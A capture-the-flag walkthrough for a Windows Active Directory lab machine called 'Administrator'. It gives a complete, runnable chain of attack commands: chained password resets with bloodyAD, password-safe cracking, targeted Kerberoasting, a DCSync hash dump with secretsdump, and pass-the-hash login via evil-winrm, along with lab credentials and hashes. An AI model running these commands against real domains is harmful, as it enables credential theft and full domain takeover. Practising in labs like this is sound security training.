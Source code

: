 # Administrator

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :-- | :--- | :--- | :--- |
| 1 | `Olivia` | **Credentialed Enumeration** | Used provided credentials for `Olivia` to perform enumeration via `crackmapexec`, revealing a list of users in the domain. |
| 2 | `Michael`, `Benjamin` | **BloodHound & Password Reset** | Analyzed domain relationships with **BloodHound**, discovering that `Olivia` could reset `Michael`'s password, and `Michael` could reset `Benjamin`'s. Used `bloodyAD` to perform the chained password resets. |
| 3 | `Benjamin` | **File Transfer & Password Cracking** | Logged into the FTP service with `Benjamin`'s new password and downloaded an encrypted file, `Backup.psafe3`. Used **`pwsafe2john`** and **`john`** to crack the file's master password, revealing credentials for several users, including `Emily`. |
| 4 | `Emily`, `Ethan` | **Targeted Kerberoasting** | With `Emily`'s credentials, abused her write permissions on `Ethan`'s account to perform a **Targeted Kerberoasting** attack. This involved setting a temporary SPN and capturing the resulting service ticket hash. |
| 5 | `Ethan` | **Hash Cracking** | Used **`john`** to crack the captured Kerberos hash, recovering the password for the `Ethan` user. |
| 6 | `Administrator` | **DCSync Attack** | Used `Ethan`'s compromised credentials and the **DCSync** technique via `secretsdump.py` to dump all user password hashes from the domain controller, including the `Administrator`'s NTLM hash. |
| 7 | `Administrator` | **Hash-Based Login** | Used **`evil-winrm`** and the `Administrator`'s NTLM hash to log into the domain controller, gaining a high-privileged shell and access to the `root.txt` flag. |


To start, the initial access on the **Administrator** box is through the provided credentials for the `Olivia` account. The overall attack path involves a series of lateral movements and privilege escalation techniques to compromise the domain controller and gain full administrative control.

### Enumeration and Initial Access

Initial enumeration with `nmap` shows a typical Windows Active Directory setup with several key ports open.

  * `21/tcp`: FTP, potentially allowing file transfers.
  * `88/tcp`: Kerberos, used for authentication.
  * `139/tcp`, `445/tcp`: SMB, used for file and printer sharing.
  * `389/tcp`, `636/tcp`: LDAP, used to query the directory service.

With the provided credentials for the **Olivia** account (`ichliebedich`), you can begin to enumerate the domain.

```bash
# Check available SMB shares
crackmapexec smb administrator.htb -u "Olivia" -p "ichliebedich"

# Enumerate users via RID brute force
crackmapexec smb administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute
```

The `rid-brute` command reveals a list of users, including `Michael` and `Benjamin`, who are central to the attack.

### Lateral Movement: Password Resets

The next step is to analyze the relationships between users to find an attack path. **BloodHound** is the ideal tool for this, as it maps out privilege relationships in an Active Directory environment.

```bash
# Run bloodhound-python to collect data
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
```

After ingesting the data into the BloodHound GUI, you discover a chain of control: **Olivia** can force a password change for **Michael**, who can then force a password change for **Benjamin**.

1.  **Change Michael's password** using `bloodyAD`, a powerful Active Directory exploration and exploitation tool.
    ```bash
    bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "NewPassword123!"
    ```
2.  **Change Benjamin's password** using Michael's newly set credentials.
    ```bash
    bloodyAD -u "Michael" -p "NewPassword123!" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "AnotherNewPass234!"
    ```

\<hr\>

### Data Exfiltration and Cracking

With access to the **Benjamin** account, you can now log in to the FTP service.

```bash
# Log in to FTP
ftp administrator.htb
# User: Benjamin
# Password: AnotherNewPass234!
ls -la
```

You'll find a file named **`Backup.psafe3`**. This is an encrypted Password Safe file.

```bash
# Download the file
get Backup.psafe3

# Convert the .psafe3 file to a crackable hash format
pwsafe2john Backup.psafe3 > hash.txt

# Crack the hash using a wordlist
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password for the Password Safe file is revealed to be **`tekieromucho`**. Using the **Password Safe** application (which can be installed on Kali), you can open the file and find credentials for several users, including **Emily**.

**Emily's credentials:**

  * Username: `emily`
  * Password: `UXLCI5XXXXXXXXXXXXXXXXXXXXXXX`

\<hr\>

### Privilege Escalation: Targeted Kerberoasting

Returning to the BloodHound analysis, you'll see a specific privilege path from **Emily** to **Ethan**. Emily has permissions to write to Ethan's account attributes. This can be abused to perform a **targeted Kerberoasting** attack.

**Targeted Kerberoasting** involves temporarily setting a **Service Principal Name (SPN)** on a user account that doesn't have one. This allows you to request a Kerberos service ticket (TGS) for that user, which can then be cracked offline to reveal their password.

1.  **Run `targetedKerberoast.py`** from the Impacket framework.

    ```bash
    # Note: Ensure your system time is synchronized with the DC to avoid Kerberos errors
    ntpdate administrator.htb

    # Run the targeted Kerberoasting script
    python targetedKerberoast.py -u "emily" -p "UXLCI5XXXXXXXXXXXXXXXXXXXXXXX" -d "Administrator.htb" --dc-ip 10.10.11.42
    ```

    The script will output a crackable Kerberos hash for **Ethan**.

2.  **Crack the hash** with `john`.

    ```bash
    # Save the hash to a file, e.g., 'ethan_hash.txt'
    john ethan_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```

    The password for **Ethan** is **`liXXXXXXX`**.

\<hr\>

### Final Compromise: DCSync Attack

Ethan's account has the privileges to perform a **DCSync** attack. This attack allows an attacker to simulate a domain controller and request a replication of the domain's user hashes, including the `Administrator` hash, bypassing the need to crack a password.

1.  **Use `secretsdump.py`** from the Impacket framework to perform the DCSync attack.

    ```bash
    impacket-secretsdump "Administrator.htb/ethan:liXXXXXXX"@"dc.Administrator.htb"
    ```

2.  The command's output will show all user hashes. Locate the NTLM hash for the **Administrator** account: `3dc553ce4b9fd20bd016e098d2d2fd2e`.

3.  **Use the hash to log in** via `evil-winrm`.

    ```bash
    evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9XXXXXXXXXXXXXXXX"
    ```

    You now have a high-privileged shell on the domain controller as the **Administrator**.